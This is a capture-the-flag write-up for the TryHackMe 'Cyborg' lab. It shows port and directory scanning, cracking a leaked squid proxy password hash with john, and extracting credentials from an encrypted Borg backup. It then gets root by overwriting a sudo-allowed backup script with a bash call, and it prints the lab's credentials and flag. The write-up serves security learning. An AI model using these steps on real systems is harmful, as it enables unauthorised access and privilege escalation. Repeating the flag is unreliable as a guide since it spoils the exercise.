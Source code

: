 ```yaml
---
published: true
layout: post
title: THM-Writeups_Cyborg
---
```

![]({{site.baseurl}}/images/Writeups/writeups-cyborg.jpeg)
A box involving encrypted archives, source code analysis and more. 

---

#### Let's use nmap to check the machine's ports.

```
─[✗]─[aj-tap@parrot]─[~]
└──╼ $sudo nmap -sV -sC -O -T4 -n -Pn -p- -oA fullfastscan 10.10.125.131
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-06 21:06 +08
Nmap scan report for 10.10.125.131
Host is up (0.30s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/6%OT=22%CT=1%CU=39276%PV=Y%DS=4%DC=I%G=Y%TM=6367B20
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 155.88 seconds
```
#### There are two open ports. SSH is listening on Port 22, while HTTP is listening on Port 80. We can verify this by grabbing the banner with netcat on port 22 and running whatweb on port 80.

```
┌─[✗]─[aj-tap@parrot]─[~]
└──╼ $nc 10.10.125.131 22
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10
```

```
┌─[aj-tap@parrot]─[~]
└──╼ $whatweb 10.10.125.131 
http://10.10.125.131 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.125.131], Title[Apache2 Ubuntu Default Page: It works]
```

---

#### Let's look into the web application. We discovered that the root url contains a default Apache web page. Further investigation revealed a file in /etc/squid/squid.conf and etc/squid/passwd. It appears to be a squid proxy server that has been incorrectly configured.

### /etc/squid/squid.conf Page
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-1.png)

### /etc/squid/passwd Page
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-2.png)

#### Let's use the dirb tool to discover the site's hidden directories.
```
┌─[✗]─[aj-tap@parrot]─[~/Desktop]
└──╼ $dirb http://10.10.125.131/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Nov  6 21:27:34 2022
URL_BASE: http://10.10.125.131/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.125.131/ ----
	==> DIRECTORY: http://10.10.125.131/admin/    
```
### /admin Page
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-3.png)
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-4.png)

We just discovered the admin page. Based on the conversation, Alex set up a squid proxy, but due to a lack of knowledge of the technology, this results in a misconfiguration, which leads to an information disclosure. We found out before that the password hash is located on /squid/passwd. The admin page also includes an archive.tar file. 

![]({{site.baseurl}}/images/Writeups/writeups-cyborg-5.png)

```
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $cat README 
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```
#### Based on the README file, these are encrypted backup files used by the borg tool, which is a deduplicating backup program. We can simply install borgback using apt package manager.
```
[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $sudo apt install borgbackup
```
#### https://borgbackup.readthedocs.io/en/stable/installation.html#distribution-package
```
─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $borg list .
Enter passphrase for key /home/user/Desktop/cyborg/home/field/dev/final_archive: 
music_archive                        Tue, 2020-12-29 22:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```
#### Using borgbackup list flag, it gaves us contents of the repository which is a encrypted music_archive. We already obtain the hash password of music_archive before. Let's crack it using john. 

```
─[aj-tap@parrot]─[~/Desktop]
└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt hashpass.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (music_archive)
1g 0:00:00:00 DONE (2022-11-06 21:33) 2.380g/s 93257p/s 93257c/s 93257C/s 091983..lilica
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

#### We recover the password from the hash. Let's supply this to borgbackup, then unpack the music archive and examine its contents.

```
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $mkdir unpacked_backup
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $borg mount . unpacked_backup/
Enter passphrase for key /home/user/Desktop/cyborg/home/field/dev/final_archive: 
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $cd unpacked_backup/
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive/unpacked_backup]
└──╼ $tree 
.
└── music_archive
    └── home
        └── alex
            ├── Desktop
            │   └── secret.txt
            ├── Documents
            │   └── note.txt
            ├── Downloads
            ├── Music
            ├── Pictures
            ├── Public
            ├── Templates
            └── Videos

11 directories, 2 files
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive/unpacked_backup]
└──╼ $cat music_archive/home/alex/Desktop/secret.txt 
shoutout to all the people who have gotten to this stage whoop whoop!"
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive/unpacked_backup]
└──╼ $cat music_archive/home/alex/Documents/note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3

```

#### We simply obtained Alex's password from the note.txt file. Let's use this credential to log in to the machine's ssh.
```
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```
#### We found out that we can sudo backup.sh. Using this file, we can elavate our user account to root account. First, change the file permissions to read and write, and then add a script that invokes the bash program.
```
alex@ubuntu:~$ chmod 777 /etc/mp3backups/backup.sh 
alex@ubuntu:~$ echo "/bin/bash" > /etc/mp3backups/backup.sh 
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh 
root@ubuntu:~# cat /root/root.txt 
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
